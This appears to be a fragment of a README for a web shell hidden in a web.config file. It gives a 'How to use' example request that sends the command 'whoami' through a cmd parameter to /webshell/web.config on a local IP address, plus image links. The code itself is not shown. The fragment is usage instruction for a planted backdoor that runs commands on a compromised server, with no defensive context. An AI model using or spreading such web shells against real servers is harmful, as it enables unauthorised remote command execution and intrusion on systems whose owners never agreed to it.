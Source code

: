 How to use:
ex:
```
http://192.168.1.7/webshell/web.config?cmd=whoami
```

![image](https://user-images.githubusercontent.com/24661746/131247005-1a4270d0-41a3-4002-ba31-59bbcbba2943.png)

